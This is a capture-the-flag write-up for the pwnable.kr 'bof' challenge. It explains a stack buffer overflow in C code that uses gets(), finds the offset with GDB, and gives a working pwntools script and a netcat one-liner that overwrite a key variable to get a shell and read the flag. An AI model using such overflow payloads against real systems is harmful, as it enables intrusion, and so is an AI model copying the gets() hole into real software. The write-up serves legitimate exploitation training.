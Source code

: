 # BOF
This is the 3rd challenge @ `pwnable.kr`  
Let's Start!

At this level we can download both the source code and a pre compiled binary:
```sh
wget http://pwnable.kr/bin/bof # get the binary
wget http://pwnable.kr/bin/bof.c # get the source
```

## Source Code + Binary Analysis
Let's take a look at the binary:
```bash
file ./bof
# bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```
**We can see that the binary is 32-bit elf.**
Let's take a look at the source code of the program:
```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
The flow of the program:
- Calling func with pre-defined key (`0xdeadbeef`)
	- creating a buffer of 32 bytes
	- getting user input with `gets` function (vulnerable!)
	- checking if the key value is `0xcafebabe`
		- opening a shell

## About `gets` and `buffer-overflow`
Only by the name of the challenge and the comments in the source, we know this will be a `Buffer Overflow` challenge.
### Buffer Overflow ?
If you don't know what a buffer overflow is, I really recommend to look it up, as I might not explain it in the best way.
Chat-GPT says:
*A buffer overflow occurs when a program writes more data to a buffer (a fixed-size block of memory) than it can hold, causing the excess data to overwrite adjacent memory, which can lead to crashes, unexpected behavior, or exploitation by attackers to execute malicious code.*
Basically in low-level languages the programmer must allocate the right buffer size before allowing user input to get into the buffer.
For example:
While in `python` we can do this:
```python
s = input(">> ")
```
In `C` we must do something like this
```c
char buf[32];
printf(">> ");
gets(buf);
```
Congrats! the C code is vulnerable to a buffer overflow!
Let's take a look at the flow:
- creating a 32 bytes long buffer.
- printing `>> ` to the screen
- getting user input from `STDIN` into the buffer
But our buffer is only 32 bytes long... there is nothing checking that the user input is not longer - which means the user is able to write ANYTHING to the STACK. The user now can modify variables, change the execution flow of the program and more.
## Exploit!
So to win this challenge we need to make sure the `KEY` variable is being change from `0xdeadbeef` to `0xcafebabe`.
Because the call to the `gets` function - we can use buffer overflow to achieve this!
We need to calculate the offset from our input, to the key variable. Let's use `GDB`!
-  launch the debuger
- set break point on `gets`
- run the program
- go to the next line
- input a string
- check the stack
```sh
gdb ./bof
break gets
# Breakpoint 1 at 0x4c0
r
# overflow me :
n
AAAABBBBCCCC
# 0x56555654 in func ()
x/100x $ebp-44
# 0xffffd07c:	0x41414141	0x42424242	0x43434343	0x44444444
# 0xffffd08c:	0x45454545	0x46464646	0x47474747	0x48484848
# 0xffffd09c:	0x49494949	0xffffd000	0xf7fc1688	0xffffd0c8
# 0xffffd0ac:	0x5655569f	0xdeadbeef	0x00000000	0x00000000
# 0xffffd0bc:	0x00000000	0x00000000	0x00000070	0x00000000
# 0xffffd0cc:	0xf7da62d5	0x00000001	0xffffd184	0xffffd18c
# 0xffffd0dc:	0xffffd0f0	0xf7f9fff4	0x5655568a	0x00000001
# 0xffffd0ec:	0xffffd184	0xf7f9fff4	0x565556b0	0xf7ffcb80
# 0xffffd0fc:	0x00000000	0x69d1419a	0x22b5cb8a	0x00000000
# 0xffffd10c:	0x00000000	0x00000000	0xf7ffcb80	0x00000000
# 0xffffd11c:	0x60f9a400	0xf7ffda50	0xf7da6266	0xf7f9fff4
# 0xffffd12c:	0xf7da6398	0xf7fc9aec	0x56556ff4	0x00000001
# 0xffffd13c:	0x56555530	0x00000000	0xf7fdb7d0	0xf7da6319
# 0xffffd14c:	0x56556ff4	0x00000001	0x56555530	0x00000000
# 0xffffd15c:	0x56555561	0x5655568a	0x00000001	0xffffd184
# 0xffffd16c:	0x565556b0	0x56555720	0xf7fcd7d0	0xffffd17c
# 0xffffd17c:	0xf7ffda50	0x00000001	0xffffd335	0x00000000
# 0xffffd18c:	0xffffd362	0xffffd378	0xffffd3a7	0xffffd3ba
# 0xffffd19c:	0xffffd3cb	0xffffd3e2	0xffffd420	0xffffd454
# 0xffffd1ac:	0xffffd466	0xffffd479	0xffffd482	0xffffd491
# 0xffffd1bc:	0xffffd4c7	0xffffd4d2	0xffffd4e1	0xffffd50a
# 0xffffd1cc:	0xffffd526	0xffffd563	0xffffd576	0xffffd58d
# 0xffffd1dc:	0xffffd5a0	0xffffd5ad	0xffffd5c4	0xffffd5d0
# 0xffffd1ec:	0xffffd5e1	0xffffd66a	0xffffd689	0xffffd69d
# 0xffffd1fc:	0xffffd6ae	0xffffd6c3	0xffffd6d6	0xffffd6e3
```
You can see that our input is starting at `0x41414141` (`AAAA`) at the address `0xffffd07c`. We can see the word `deadbeef` at:
```
# 0xffffd0ac:	0x5655569f	0xdeadbeef
```
we can use python to get the address of `deadbeef` and to get the offset:
```python
starting_addr = 0xffffd07c
deadbeef_addr = 0xffffd0ac + 4
deadbeef_addr - starting_addr
# 52
```
Now we know we have 52 bytes between where our buffer starts to the target address.
We need to:
- fill the buffer with 52 bytes
- write `cafebabe` (Endianness)
Let's use python and `pwntools`! (`exploit.py`)
```python
import pwn
# building the payload
filler = b'\x01' * 52
target_key = b'\xbe\xba\xfe\xca'
payload = filler + target_key + b"\n"
# exploiting
conn = pwn.remote('pwnable.kr', 9000)
print("sending payload...")
conn.send(payload)
print("opening interactive shell")
conn.interactive()
```
Or if you like bash:
```sh
(python3 -c "import sys;sys.stdout.buffer.write(b'\x01'*52+b'\xbe\xba\xfe\xca'+b'\n')";cat) | nc pwnable.kr 9000
```
Now just:
```sh
cat flag
# daddy, I just pwned a buFFer :)
```
PWNED!